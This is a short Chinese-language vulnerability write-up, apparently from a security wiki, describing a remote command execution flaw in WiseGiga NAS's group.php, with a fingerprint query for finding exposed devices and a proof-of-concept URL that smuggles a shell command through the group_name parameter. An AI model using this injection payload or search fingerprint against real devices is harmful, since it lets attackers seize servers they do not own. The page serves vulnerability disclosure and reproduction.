 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

<a-checkbox checked>WiseGiga NAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WISEGIGA-NAS"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626192524954.png)

验证POC

```php
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![img](/assets/PeiQi-Wiki/img/1656242636704-5f2865a9-4521-4d83-9e09-e39794f8204b-20220626192504901.png)

![img](/assets/PeiQi-Wiki/img/1656242655760-33a64203-f341-4af7-a9b8-5aeb1ff66859-20220626192501808.png)